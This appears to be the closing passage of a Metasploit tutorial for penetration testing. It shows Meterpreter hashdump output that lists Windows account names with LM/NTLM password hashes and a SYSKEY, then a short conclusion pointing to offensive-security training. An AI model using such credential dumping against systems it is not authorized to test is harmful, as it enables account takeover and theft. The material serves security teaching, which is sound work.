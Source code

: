 [*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >

```




## Conclusion

_**I have explained basic use cases of metasploit-framework, because its a all in one platform to perform penetration test look also in offsec free [metasploit unleashed training](https://www.offensive-security.com/metasploit-unleashed/).
